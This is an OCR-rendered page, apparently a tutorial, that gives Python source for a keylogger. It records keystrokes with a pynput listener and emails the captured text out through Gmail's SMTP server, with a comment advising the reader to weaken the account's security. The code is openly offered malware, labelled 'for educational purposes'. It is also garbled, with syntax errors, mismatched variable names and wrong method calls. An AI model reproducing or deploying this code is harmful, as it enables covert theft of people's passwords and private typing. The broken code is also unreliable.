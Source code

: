 ```python

def email(keys) :    #Defining the email fuction and making the stroks more readable for us 
  message = !!
  for key in keys: 
    k = key.replace("'","")  # This line, replaces commas to nothing
    if key == "Key.space":   #If ther is any key presses that has spce, then this will add the space
      k = " "
    elif key.find("Key")>0:
      k = " "
    message += k
  print(message)
  send_email.sendEmail(message)

def on_release(key):   #Defining the on release function
  if key == Key.esc:  # When you press the esc key on the CL , the program will stop and return false. 
    return False

with Listener (on_press = on_press, on_elease = on_release as listener: 
  listener.join()
```
#### Here is the sendemail.py code:
```python
# The first thing you'll neeed to do is to reduce the security in your google email, since google will not allow your python application for security reasons. 
# its recommended that you make a whole new email account, if your going to be testing this out - for educational purposes.

import smtplib, ssl  # Servers that will help yu connect to your email, you'll nedd to insatall them with pip install 

def sendEmail (message) : 
  smtp_server = "smtp.gmail.com"
  port = 587
  sender_email = "testemailaccount@gmail.com"  #Make your own Gmail
  password = "enter your password"
  reciver_email = "testemailaccount@gmail.com"

  context = ssl.create_default_context()

  try :
    server = smtplib.SMTP(smtp_server ,port)
    server.ehlo()
    server.starttls(context=context)
    server.ehlo()
    server.login(sender_email, password)
    server.sendemail(sender_email, receiver_email, message)
    
  except Exception as e:
    print(e)
  
  except Exception as e:
    print(e)
    
  finally:
    server.quit()

```
    